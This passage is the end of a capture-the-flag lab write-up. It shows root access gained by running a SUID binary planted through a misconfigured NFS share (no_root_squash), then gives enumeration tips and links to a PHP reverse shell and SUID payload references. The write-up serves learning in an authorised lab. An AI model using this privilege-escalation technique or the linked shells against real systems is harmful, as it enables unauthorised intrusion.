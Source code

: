 We got some errors but everything is alright in the end. Now that the file is inside out /mnt directory let's check it over on the vulnerable machine. The location there is /var/nfsshare :

```bash
ache@bravery /var/nfsshare$ ls - 
total 48
drwxrwxrwx.  3 nfsnobody nfsnobody   161 Aug 16 07:59 .
drwxr-xr-x. 24 root      root       4096 Dec 25  2018 ..
-rw-r--r--.  1 root      root         15 Dec 26  2018 README.txt
-rw-r--r--.  1 root      root         29 Dec 26  2018 discovery
-rw-r--r--.  1 root      root         51 Dec 26  2018 enumeration
-rw-r--r--.  1 root      root         20 Dec 26  2018 explore
drwxr-xr-x.  2 root      root         19 Dec 26  2018 itinerary
-rw-r--r--.  1 root      root        104 Dec 26  2018 password.txt
-rwsr-sr-x.  1 root      root      16664 Aug 16 07:19 payload
-rw-r--r--.  1 root      root         67 Dec 26  2018 qwertyuioplkjhgfdsazxcvbnm
ache@bravery /var/nfsshare$ ./payload
sh-4.2# id
uid=0(root) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

Rooted due to misconfigurations with NFS. 


# Conclusion & Tips

This box was full of mini-rabbit holes and things you can easily lose your time going over. The trick was to read between the lines and realize there has to be something else on that webserver - which caused me to switch the wordlists and get to the /genevieve/ directory. For those who missed it - don't worry. Just remember to use a big wordlist if your enumeration of the webserver is returning no useful results and you see no other way anywhere else.

The root section was straightforward with at least two ways to get the root, both being very interesting and dangerous vectors - the **cp** SUID binary and NFS *no_root_squash* misconfiguration.

Overall - it is a very interesting box that shows the importance of proper enumeration.

# Sources 

[Pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[C_SUID payloads](https://book.hacktricks.xyz/linux-unix/privilege-escalation/payloads-to-execute#c)

